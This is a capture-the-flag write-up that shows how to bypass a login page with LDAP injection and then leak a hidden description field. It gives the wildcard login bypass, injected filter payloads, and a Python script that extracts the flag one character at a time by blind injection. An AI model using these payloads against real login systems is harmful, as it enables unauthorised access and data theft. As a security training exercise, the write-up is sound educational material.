 # lightweight

### Enumeration

We are greeted by a simple login page. Trying different special characters reveals that it acts in a different way for these characters: `*`, `(`, `)`.

Parentheses cause a 500 error, and `*` lets us bypass the login - it's what we would expect from LDAP, and definitely not SQL. "Lightweight" could be a hint - LDAP stands for Lightweight Directory Access Protocol.

So by putting `username=*&password=*` we can bypass the auth and see a hint:

```html
User Description: FAILED TO LOAD <!-- Probably for the better, as it might contain sensitive data -->
```

It points to leaking the user's description.

### Leaking the description

We can try to break out of the filter expression which we are injecting into, and add another one. Similar to payloads from [this cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md). We need to guess the correct number of parantheses to close, which in this case is 1. 

```
username=*)(description=bts*&password=*
```

The above request lets us log in (status code 200), however this one:

```
username=*)(description=wrong*&password=*
```

...return a status code 401. We can write a script and leak the description (flag) one character at a time.

```py
import requests

URL = "http://localhost"

def check_description(prefix):
    data = {
        "username": f"*)(description={prefix}*",
        "password": "*"
    }

    r = requests.post(URL, data=data)
    if r.status_code != 200:
        return False
    return True

def leak():
    prefix = ""
    while True:
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-":
            if check_description(prefix + char):
                prefix += char
                print(prefix)
                break
        else:
            break
    return prefix

if __name__ == "__main__":
    prefix = leak()
    print(f"Description: {prefix}")
```
